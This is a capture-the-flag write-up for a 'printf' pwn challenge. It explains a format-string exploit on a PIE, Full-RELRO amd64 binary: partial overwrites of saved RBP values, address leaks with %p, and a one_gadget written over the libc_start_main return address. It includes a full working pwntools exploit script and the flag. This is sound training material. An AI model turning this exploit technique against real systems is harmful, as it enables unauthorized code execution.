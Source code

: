 # printf

## Challenge

The challenge provides a single `printf` call on user input before exiting.
The user string is stored in the data section, so users cannot write their own addresses to the stack.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Disassembly

```c
void sym.go(void) {
    sym.imp.fgets(obj.s, 0x100, _reloc.stdin);
    sym.imp.printf(obj.s);
    return;
}

void sym.set(void) {
    sym.go();
    return;
}

void sym.ready(void) {
    sym.set();
    return;
}

ulong main(void) {
    sym.imp.alarm(0x3c);
    sym.imp.setbuf(_reloc.stdout, 0);
    sym.imp.setbuf(_reloc.stdin, 0);
    sym.ready();
    return 0;
}
```

## Solution

Due to the nested function calls leading to the `printf` call, there is a number of stored RBP values on the stack.
By overwriting the least significant byte of one of these values, we can use it to write up to a word to any other value on the stack.

If we make this point at a return address, we can cause the program to return back into `main` to loop back to the vulnerable call.
This does require some luck.
These saved RBP values will always be aligned to 0x10 bytes, so we have to guess the most significant 4 bits of the byte still.
This gives us a 1/16 chance of getting a given value.
I believe that 2 values would work for the purpose of looping the program, which gives us closer to a 2/16 chance of succeeding.

We can combine this with some `%p` conversion specifiers to leak addresses in the first iteration, which will give us more control over what we can overwrite in subsequent iterations.
On the next iteration, we can overwrite any value on the stack to a value of our choosing, one word at a time.
The easiest thing I found, and what most other competitors did, was to replace the `libc_start_main_return` address with a one\_gadget.
If this was not an option though, it would also be possible to write a full ropchain here, though it may require multiple loops.

P.S.
I found out later that one competitor rented a nearby cloud VM, allowing them to write the one\_gadget in a single stage, which I found quite amusing.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 chal
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

def write_word_on_stack(offset, word):
    payload = "%c%c%c%c"
    written = 4

    to_write = ((stack + 0x28 + offset) - written) % 0x100
    written += to_write
    payload += f"%{to_write}c%hhn"

    to_write = (word - written) % 0x10000
    written += to_write
    payload += f"%{to_write}c%hn"

    to_write = (0x44 - written) % 0x100
    written += to_write
    payload += f"%{to_write}c%hhn"

    io.sendline(payload.encode())

libc = ELF('libc-2.31.so')

io = start()

payload = "%c%c%c%c"
written = 4

to_write = (0x68 - written) % 0x100
written += to_write
payload += f"%{to_write}c%hhn"

to_write = (0x44 - written) % 0x100
written += to_write
payload += f"%{to_write}c%hhn"

payload += "<<<%6$p>>>"
payload += "<<<%13$p>>>"

io.sendline(payload.encode())

io.recvuntil(b'<<<')
stack = int(io.recvuntil(b'>>>', drop=True), 0)
io.info("STACK: " + hex(stack))

io.recvuntil(b'<<<')
libc.address = int(io.recvuntil(b'>>>', drop=True), 0) - libc.libc_start_main_return
io.info("LIBC: " + hex(libc.address))
io.info("GETS: " + hex(libc.sym['gets']))
io.info("RET: " + hex(libc.libc_start_main_return))

one_gadget = libc.address + 0xe3b01
write_word_on_stack(0, one_gadget)
write_word_on_stack(2, one_gadget >> 0x10)

io.sendline(b'')

io.interactive()
```

## Flag

```
maple{F0wm47_57w1ng_3xpl01t_UwU}
```
